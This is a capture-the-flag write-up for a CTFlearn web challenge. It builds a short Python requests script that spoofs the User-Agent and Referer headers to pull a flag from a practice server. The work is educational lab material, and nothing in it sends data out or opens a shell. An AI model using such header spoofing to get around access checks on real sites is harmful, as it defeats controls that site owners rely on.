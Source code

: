 # Writeup for [Dont\_bump\_your\_header](https://ctflearn.com/challenge/109) Box

When we open the provided link, we get an error message...  
![](./img/1.jpg)  

This speaks of a User-Agent which is part of an HTTP Header. When we take a look at the source code, we can clearly see a comment that we can potentially use for the User-Agent.  
![](./img/2.jpg)
We could use the curl command to spoof our User-Agent but I feel like creating an exploit script for this box to sharpen my programming skills. I am going to use [Python](https://www.python.org/) and the built-in requests module.  

First of all, lets create a basic script to do a GET request on the website.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

s = requests.get(url)

print(s.text)
```  

When we run this script, we should be able to see the same error message we got when accessing the website. Since we got that comment from the source code, we should try to use that as our User-Agent.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'
user_agent = 'Sup3rS3cr3tAg3nt'

headers = {
        'User-Agent' : user_agent,
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

When we run this script, we get another error...  
![](./img/3.jpg)  
I got super confused and tried to manipulate the User-Agent but it seemed that it works. So what was the issue? When you read the error message carefully, it says that we did not come from `awesomesauce.com`. There is an entry called 'Referer' on an HTTP Header that denotes where the request came from, so we can set this Referer entry to be `awesomesauce.com`.  
This is what the final script should look like  

```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

user_agent = 'Sup3rS3cr3tAg3nt'
referer = 'awesomesauce.com'

headers = {
        'User-Agent' : user_agent,
        'Referer'   : referer
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

Run the script and get that flag.
